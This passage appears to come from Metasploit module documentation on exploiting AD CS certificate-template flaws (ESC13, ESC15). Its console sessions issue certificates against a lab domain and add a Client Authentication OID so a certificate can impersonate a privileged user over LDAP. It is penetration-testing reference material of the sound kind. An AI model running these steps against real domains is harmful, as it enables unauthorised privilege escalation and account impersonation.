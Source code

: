 In this case, the ticket can be issued with the `icpr_cert` module. No additional options are required to issue the
certificate beyond the standard `CA`, `CERT_TEMPLATE`, target and authentication options.

```
msf6 > use auxiliary/admin/dcerpc/icpr_cert 
msf6 auxiliary(admin/dcerpc/icpr_cert) > set RHOSTS 172.30.239.85
RHOSTS => 172.30.239.85
msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBUser normaluser
SMBUser => normaluser
msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBDomain COLLALABS1
SMBDomain => COLLALABS1
msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBPass normalpass
SMBPass => normalpass
msf6 auxiliary(admin/dcerpc/icpr_cert) > set CA collalabs1-SRV-ADDS01-CA
CA => collalabs1-SRV-ADDS01-CA
msf6 auxiliary(admin/dcerpc/icpr_cert) > set CERT_TEMPLATE ESC13-Test
CERT_TEMPLATE => ESC13-Test
msf6 auxiliary(admin/dcerpc/icpr_cert) > run
[*] Running module against 172.30.239.85

[+] 172.30.239.85:445 - The requested certificate was issued.
[*] 172.30.239.85:445 - Certificate Email: normaluser@collalabs1.local
[*] 172.30.239.85:445 - Certificate SID: S-1-5-21-3474343397-3755413101-2031708755-10051
[*] 172.30.239.85:445 - Certificate UPN: normaluser@collalabs1.local
[*] 172.30.239.85:445 - Certificate stored at: /home/normaluser/.msf4/loot/20240226170310_default_172.30.239.85_windows.ad.cs_917878.pfx
[*] Auxiliary module execution completed
msf6 auxiliary(admin/dcerpc/icpr_cert) >
```

We can then use the `kerberos/get_ticket` module to gain a Kerberos ticket granting ticket (TGT) with the `ESC13-Group`
RID present in the Groups field of the TGT PAC.

# Exploiting ESC15
Steps for exploiting ESC15 are similar to ESC1 whereby a privileged user such as a domain admin is specified in the
`ALT_UPN`. In addition to targeting another user, the certificate has additional Application Policy OIDs added to it
which adjusts the context in which the issued certificate can be used. These policy OIDs are accepted by the issuing CA
if the target certificate template is defined using schema version 1.

In the following example, the Client Authentication OID (1.3.6.1.5.5.7.3.2) is added which enables the certificate to be
used for authentication to LDAP via SCHANNEL. The operator can then perform LDAP queries with the privileges of the user
specified in the alternate UPN.

```msf
msf6 auxiliary(admin/dcerpc/icpr_cert) > set RHOSTS 172.30.239.85
RHOSTS => 172.30.239.85
msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBUser normaluser
SMBUser => normaluser
msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBDomain COLLALABS1
SMBDomain => COLLALABS1
msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBPass normalpass
SMBPass => normalpass
msf6 auxiliary(admin/dcerpc/icpr_cert) > set CA collalabs1-SRV-ADDS01-CA
CA => collalabs1-SRV-ADDS01-CA
msf6 auxiliary(admin/dcerpc/icpr_cert) > set CERT_TEMPLATE ESC15-Test
CERT_TEMPLATE => ESC15-Test
msf6 auxiliary(admin/dcerpc/icpr_cert) > set ADD_CERT_APP_POLICY 1.3.6.1.5.5.7.3.2
ADD_CERT_APP_POLICY => 1.3.6.1.5.5.7.3.2
```